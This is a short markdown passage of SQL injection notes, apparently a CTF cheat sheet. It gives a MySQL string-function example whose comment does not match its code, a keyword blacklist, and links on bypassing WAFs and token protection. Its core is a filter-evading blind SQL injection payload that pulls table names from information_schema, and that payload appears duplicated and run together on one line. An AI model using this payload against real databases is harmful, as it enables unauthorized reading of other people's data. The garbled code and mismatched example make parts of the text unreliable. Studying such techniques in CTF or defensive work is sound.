 ```
```
截取倒数第二个“-”之后的所有字符   
```
SELECT SUBSTRING_INDEX('web-exp-mysql', '.', -2);
```
## Bypass
### 1.bypass WAF
- [sql-injection-fuck-waf](https://notwhy.github.io/2018/06/sql-injection-fuck-waf/)
### 2.bypass 过滤函数
过滤:
```
gtid_subset|updatexml|extractvalue|floor|rand|exp|json_keys|uuid_to_bin|bin_to_uuid|union|like|hash|sleep|benchmark| |;|\*|\+|-|/|<|>|~|!|\d|%|\x09|\x0a|\x0b|\x0c|\x0d|`
```
绕过
```
'and(ASCII(substring((select(group_concat(table_name))from(information_schema.TABLES)where(TABLE_SCHEMA='rctf')),(ord('b')MOD(ord('a'))),(ord('b')MOD(ord('a')))))=ASCII('f')'and(ASCII(substring((select(group_concat(table_name))from(information_schema.TABLES)where(TABLE_SCHEMA='rctf')),(ord('b')MOD(ord('a'))),(ord('b')MOD(ord('a')))))=ASCII('f')
```
### 3.bypass Token保护
- [Burpsuite+SQLMAP双璧合一绕过Token保护的应用进行注入攻击](https://www.freebuf.com/sectool/128589.html)

## Ref
- https://www.cnblogs.com/xuyangda/p/14510562.html
- https://www.anquanke.com/post/id/266244
- https://www.freebuf.com/sectool/128589.html
  

